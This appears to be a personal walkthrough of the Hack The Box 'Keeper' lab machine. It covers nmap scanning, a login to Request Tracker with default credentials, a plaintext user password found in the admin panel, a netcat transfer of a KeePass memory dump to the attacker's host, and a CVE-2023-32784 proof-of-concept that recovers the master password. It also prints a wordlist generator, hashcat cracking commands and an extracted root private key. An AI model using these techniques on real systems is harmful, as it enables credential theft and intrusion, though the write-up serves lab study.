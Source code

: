 # NMAP

`sudo nvim /etc/hosts`

`10.10.11.227 tickets.keeper.htb`

sudo nmap 10.10.11.227 -sC -sV -sA

```bash
sudo nmap 10.10.11.227 -sC 
[sudo] password for angelo: 
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-08 16:03 CET
Nmap scan report for keeper.htb (10.10.11.227)
Host is up (0.41s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).

Nmap done: 1 IP address (1 host up) scanned in 14.48 seconds
```

# USER

We can see a ticket manager by `Best Practical`.
Ticket tracker default credentials

first result from google

```
Log in. Use a browser to log into RT. Username is root , and password is password .
```


And we're in.

We've a ticket between 2 users which talks about a keepass file crash report send because of a bug in keepass.
This is helpful for root exploitation.

Searching in the dashboard we can find credentials of another administrator at

`http://tickets.keeper.htb/rt/Admin/Users/Modify.html?id=27`

```
lnorgaard
lnorgaard@keeper.htb
lnorgaard@keeper.htb


New user. Initial password set to Welcome2023!
```

ssh connection with 

`ssh lnorgaard@10.10.11.227`

with such password == user flag.

# ROOT

```bash
receive file: nc -l -p 12344 > RT30000.zip
send file: nc 10.10.16.75 12344 < RT30000.zip
```

```
file KeePassDumpFull.dmp
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```

KeePass suffered a recent CVE `CVE-2023-32784`, which allow to get quite the entire password of the db from a dump report.

```
python3 poc.py -d ../assets/KeePassDumpFull.dmp 
2024-01-08 16:54:57,145 [.] [main] Opened ../assets/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
we have 3 chars unknown per each possible password.
Considering all printable chars which are

```python
bpython
import string
len(string.printable)

100

print(100**3)
```

1000000 = one million of possibilites * 13 passwords. 
Total of `13000000` attempts maximum. Its quite possible to make a bruteforce

Let's create a wordlist then

```python
import string
import itertools

replace_char = "●"
substitution = string.printable

print("Substitutions on " + substitution)
replacements_list = []


def generate_permutations_with_replacement(charset, string_with_placeholders):
    placeholder_positions = [i for i, char in enumerate(string_with_placeholders) if char == replace_char]
    replacements = itertools.product(charset, repeat=len(placeholder_positions))

    global replacements_list

    for replacement_combination in replacements:
        replaced_string = list(string_with_placeholders)
        for position, replacement_char in zip(placeholder_positions, replacement_combination):
            replaced_string[position] = replacement_char
        replacements_list.append(''.join(replaced_string))


with open("inputs.txt","r") as file:
    print("Generating substitutions")
    for i, psw in enumerate(file, start=1):
        generate_permutations_with_replacement(substitution, psw)    
    print(len(replacements_list))

print("Saving wordlist to a file...")

with open("wordlist.txt","w") as file:
    for x in replacements_list:
        file.write(str(x) +'\n')
```

Using john utility to extract hash from file.

keepass -> john -> hashcat

```bash
> keepass2john assets/passcodes.kdbx | grep -o "$keepass$.*" >  key_to_hash.txt

> hashcat -a 0 -m 13400 key_to_hash.txt wordlist.txt
```

Haschat says that it will take 4 hourse to crack the hash.

The latest password seems to have some meanings or at least is the most meaningful.

Googling the last password we get this

https://www.thespruceeats.com/rodgrod-med-flode-danish-red-berry-pudding-2952748

The article talks about `Rødgrød Med Fløde`.
I made a lot of attempts here trying to access the keepass db and at the end I managed the the correct password was to lower case the entire password `rødgrød med fløde`.
real keepass applicatoin for linux, crashes when inserting `rødgrød med fløde` as key master manager password.

I had to use `kpcli` from terminal to have access to the db.

```bash
export KEEPASSDB=/home/angelo/HTB/KEEPER/assets/passcodes.kdbx


kpcli ls                                                                                         
Database: /home/angelo/HTB/KEEPER/assets/passcodes.kdbx
UNLOCKING...

Database password: 
======================================================================
Groups
======================================================================
eMail
General
Homebanking
Internet
Network
passcodes
Recycle Bin
Windows
```

But this tools sucks a lot and was difficult to recover some data using it. It was useful only to check the password.
I used a tool found online to open kepass databases which seems to work pretty well!

`https://app.keeweb.info`

```
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Needs to convert `ppk` putty format to ssh format.

`yay -S putty` to install utils like puttygen.

```bash
puttygen root.ppk -O private-openssh -o root.ssh
chmod 600 root.ssh
```